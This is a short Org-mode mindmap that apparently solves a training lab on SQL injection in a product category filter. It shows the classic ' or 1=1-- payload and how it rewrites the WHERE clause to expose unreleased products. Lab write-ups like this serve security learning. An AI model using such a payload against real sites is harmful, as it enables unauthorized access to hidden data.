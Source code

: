 #+title: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#+description: Mindmap to solve this lab
#+author: Touhidul Shawan

* Solution

** SQL Injection on
~category~ filter

** Query
#+begin_SRC sql options
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
#+end_SRC sql

** End Goal
+ display details of all products

* Steps
Check for sql injection exists or not by inserting ' in the last of url.
+ sql injection exist -> give an error || not exist -> no error

** Inject Query
we can test with src_sql [:export code]{' or 1=1--}
#+begin_SRC sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
#+end_SRC sql
will become
#+begin_SRC sql options
SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1
#+end_SRC sql
